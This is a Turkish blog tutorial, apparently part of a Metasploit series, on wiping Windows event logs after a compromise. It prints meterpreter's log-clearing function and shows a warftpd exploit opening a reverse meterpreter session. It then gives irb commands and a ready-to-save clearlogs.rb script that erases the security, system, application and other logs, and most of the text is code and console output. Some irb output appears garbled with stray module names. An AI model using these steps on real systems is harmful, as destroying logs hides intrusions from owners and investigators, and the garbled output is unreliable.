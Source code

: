 ```yaml
---
draft: false
title: MSF Log Yönetimi
linkTitle: MSF Log Yönetimi
translationKey: msf-log-management
weight: 290
date: 2017-06-05T13:21:00+03:00
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))
description: Hedef bilgisayarda yaptığınız işlemlerin log kayıtlarını temizlemek için öncelikle meterpreter in sağladığı winenum script kodlarının nasıl çalıştığına bakalım.
url: /tr/msf-log-yonetimi/
featured_image: /images/metasploit.jpg
categories:
  - Metasploit Framework
tags:
  - cybersecurity
  - metasploit framework
---
```

Bazen hedef bilgisayarda yaptığınız işlemlerin log kayıtlarını temizlemek isteyebilirsiniz. Bu temizleme işlemi için öncelikle meterpreter in sağladığı `winenum` script kodlarının nasıl çalıştığına bakalım. Script dosyasını Metasploit Framework klasörünüzün altında `/usr/share/metasploit-framework/scripts/meterpreter/winenum.rb` adresinde bulabilirsiniz. Bu dosya içerisinde bir çok bölüm bulunmaktadır. Biz şimdilik sadece `# Function for clearing all event logs` kısmıyla ilgileneceğiz.

```bash
# Function for clearing all event logs
def clrevtlgs**()**
  evtlogs = [
    'security',
    'system',
    'application',
    'directory service',
    'dns server',
    'file replication service'
  ]
  print_status("Clearing Event Logs, this will leave and event 517")
  begin
    evtlogs.each **do** |evl|
      print_status("\tClearing the #{evl} Event Log")
      log = @client.sys.eventlog.open(evl)
      log.clear
      file_local_write(@dest,"Cleared the #{evl} Event Log")
    end
    print_status("All Event Logs have been cleared")
  rescue ::Exception => e
    print_status("Error clearing Event Log: #{e.class} #{e}")

  end
end
```

Programlama ile ilgilenenler kodları ve fonksiyonun nasıl çalıştığını rahatlıkla anlayacaktır. Yukarıdaki kodların ne işe yaradığını özetle açıklayalım. `evtlogs.each do |evl|` döngüsü, Windows’a ait ‘security’, ‘system’, ‘application’, ‘directory service’, ‘dns server’ ve ‘file replication service’ loglarını sırasıyla açar ve temizler.

Şimdi, hazır script yerine yukarıdaki dosyadan örnek alarak kendi script kodumuzu oluşturalım ve kaydedelim. Bunun için Meterpreter içnde Ruby kodlamayı kullanacağız. Temizlikten önce Windows Log durumunu aşağıdaki resimden görebilirsiniz.

![](/images/Eventlog-00.png)

Biz sadece ‘system’ loglarını temizlemek istediğimizden yukarıdaki döngü içerisinden sadece `log = client.sys.eventlog.open(‘system’)` durumunu kullanacağız.

## Bu kısımda deneme yapıyoruz

Öncelikle hedef bilgisayarda bir meterpreter shell açmış olmalıyız.

```bash
msf exploit(warftpd_165_user) > exploit

> Handler binding to LHOST 0.0.0.0
> Started reverse handler
> Connecting to FTP server 172.16.104.145:21...
> Connected to target FTP server.
> Trying target Windows 2000 SP0-SP4 English...
> Transmitting intermediate stager for **over-sized stage...(191 bytes)
> Sending stage (2650 bytes)
> Sleeping before handling stage...
> Uploading DLL (75787 bytes)...
> Upload completed.
> Meterpreter session 2 opened (172.16.104.130:4444 -> 172.16.104.145:1246)
```

Ardından meterpreter shell içerisinden Ruby kodlayıcısını `irb` komutuyla çalıştırıyoruz ve aşağıdaki kodları yapıştırıyoruz.

```bash
meterpreter > irb
> Starting IRB shell
> The 'client' variable holds the meterpreter client
**>>** log = client.sys.eventlog.open('system')
=> #>#:0xb6779424 @client=#>, #>, #

"windows/browser/facebook_extractiptc"=>#, "windows/antivirus/trendmicro_serverprotect_earthagent"=>#, "windows/browser/ie_iscomponentinstalled"=>#, "windows/exec/reverse_ord_tcp"=>#, "windows/http/apache_chunked"=>#, "windows/imap/novell_netmail_append"=>#
```

Şimdi, meterpreter içerisinde `log.clear` komutuyla logların temizlenip temizlenmediğini kontrol edelim.

```bash
**>>** log.clear
=> #>#:0xb6779424 @client=#>,

/trendmicro_serverprotect_earthagent"=>#, "windows/browser/ie_iscomponentinstalled"=>#, "windows/exec/reverse_ord_tcp"=>#, "windows/http/apache_chunked"=>#, "windows/imap/novell_netmail_append"=>#
```

![](/images/Eventlog-01.png)

Meterpreter içerisinde Ruby kodlayıcısı kullanarak basit bir log temizleme denemesi yaptık ve yaptığımız kontrolde başarılı olduk. Bu yaklaşımı kullanarak kendi Script kodlarımızı yazabiliriz.

## Tüm Logları Temizleme

Aşağıdaki kodları bir dosyaya yazarak `/usr/share/metasploit-framework/scripts/meterpreter/` klasörüne `clearlogs.rb` adıyla kaydedin.

```bash
evtlogs = [
        'security',
        'system',
        'application',
        'directory service',
        'dns server',
        'file replication service'
        ]
print_line("Clearing Event Logs, this will leave an event 517")
evtlogs.each **do** |evl|
        print_status("Clearing the #{evl} Event Log")
        log = client.sys.eventlog.open(evl)
        log.clear
end
print_line("All Clear! You are a Ninja!")
```

Artık bu yeni oluşturduğunuz Script kodlarını yeni açtığınız Meterpreter oturumlarında çalıştırabilirsiniz.

```bash
msf exploit(warftpd_165_user) > exploit

> Handler binding to LHOST 0.0.0.0
> Started reverse handler
> Connecting to FTP server 172.16.104.145:21...
> Connected to target FTP server.
> Trying target Windows 2000 SP0-SP4 English...
> Transmitting intermediate stager for **over-sized stage...(191 bytes)
> Sending stage (2650 bytes)
> Sleeping before handling stage...
> Uploading DLL (75787 bytes)...
> Upload completed.
> Meterpreter session 1 opened (172.16.104.130:4444 -> 172.16.104.145:1253)

meterpreter > run clearlogs
Clearing Event Logs, this will leave an event 517
> Clearing the security Event Log
> Clearing the system Event Log
> Clearing the application Event Log
> Clearing the directory service Event Log
> Clearing the dns server Event Log
> Clearing the file replication service Event Log
All Clear! You are a Ninja!
meterpreter > exit
```

Aşağıdaki resimde görüldüğü gibi tüm loglar temizlenmiştir. Geriye sadece 517 numaralı işlem kalmıştır. O işlemde halen meterpreter’in çalıştığı proses olduğundan halen aktif durumdadır.

![](/images/Eventlog-03.png)

Bu yazıda, Metasploit Framework içerisinde bulunan Scriptleri örnek alarak kendi script dosyamızı yazmayı ve log temizlemeyi göstermeye çalıştık. `/usr/share/metasploit-framework/scripts/meterpreter/` klasöründe bulunan diğer script dosyalarını da incelemenizi tavsiye ediyoruz. Bu sayede elinizdeki imkanları da öğrenmiş olacaksınız.
